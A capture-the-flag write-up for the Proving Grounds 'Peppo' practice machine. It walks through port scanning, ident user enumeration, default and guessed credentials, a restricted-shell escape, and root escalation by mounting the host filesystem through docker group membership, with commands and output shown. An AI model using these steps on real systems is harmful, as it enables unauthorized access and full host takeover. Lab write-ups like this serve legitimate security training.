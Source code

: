 ```yaml
---
title: "Proving grounds Practice: Peppo"
layout: post
date: 2024-04-12 02:00
categories: writeup
---
```


Proving grounds Practice - Peppo CTF writeup.

# NMAP

```text
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
113/tcp   open  ident             FreeBSD identd
5432/tcp  open  postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open  snet-sensor-mgmt?
```

## 8080/tcp  open  http  WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))

admin:admin

password change -> password

## 113/tcp   open  ident   FreeBSD identd

`sudo apt install ident-user-enum`

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Peppo$ ident-user-enum 192.168.196.60 113 22 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.196.60:113	nobody
192.168.196.60:22	root
192.168.196.60:10000	eleanor
```

## 10000/tcp open  snet-sensor-mgmt?

user: eleanor

## 22/tcp    open  ssh   OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

- Try brute forcing credentials using username as eleanor. `eleanor:eleanor`

***Escape rbash***

- https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

Export necessary PATH

```sh
leanor@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~/bin$ python -c 'import pty; pty.spawn("/bin/bash")'
eleanor@peppo:~/bin$ id
bash: id: command not found
n:/binr@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin
eleanor@peppo:~/bin$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

## Privilege Escalation

- User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)

### Docker exploit

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

List Docker images in the system.

```sh
eleanor@peppo:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
```

Run `docker run -v /:/mnt --rm -it redmine chroot /mnt s`

```sh
eleanor@peppo:/tmp$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).